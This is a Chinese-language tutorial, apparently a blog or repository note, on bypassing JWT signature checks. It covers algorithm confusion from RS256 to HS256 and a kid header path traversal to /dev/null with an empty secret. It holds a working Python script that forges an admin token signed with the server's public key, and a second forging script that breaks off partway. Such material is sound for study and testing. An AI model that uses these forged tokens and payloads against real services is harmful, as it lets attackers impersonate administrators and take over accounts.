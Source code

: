 ### 从RSA256转为HS256方式绕过签名

关于该绕过最初的讨论https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/.

基于RSA256的加密的机制是非对称性的，它依赖于公钥去验证有效性，但是生成新的签名则需要私钥。而HMAC则在Sign和Verify上，使用的同一secret

在保证可以换加密方式的前提下（基于场景判断），例如，verfy签名时，调用方法`verify(public_key, data)` ，如果换成HMAC时，校验签名有效性时，使用的是同一scret，这就导致，我们使用HMAC 签名的token可以保证通过verify。

我的python脚本

```python
import base64

import hmac

import hashlib



with open('public.pem','rb') as f:

public_key = f.read()

print(public_key)

msg = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9Cg.eyJsb2dpbiI6ImFkbWluIn0K'.encode('utf-8')

sig = base64.urlsafe_b64encode(hmac.new(public_key,msg,hashlib.sha256).digest()).decode('utf-8').rstrip('=')



print(type(msg))

print(msg.decode('utf-8') + '.' + sig)
```

### 利用kid读取文件实现伪造身份

可以利用kid进行新的有效签名

1. 提取header部分，将kid换成 `../../../../../../../../../dev/null`
  
2. 此时secret换成空
  
3. 进行sha256加密
  

参考脚本如下

```python
import hmac

import base64

import hashlib




changed_data = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2Rldi9udWxsIn0.eyJ1c2VyIjoiYWRtaW4ifQ"

secret = "".encode('utf-8')




```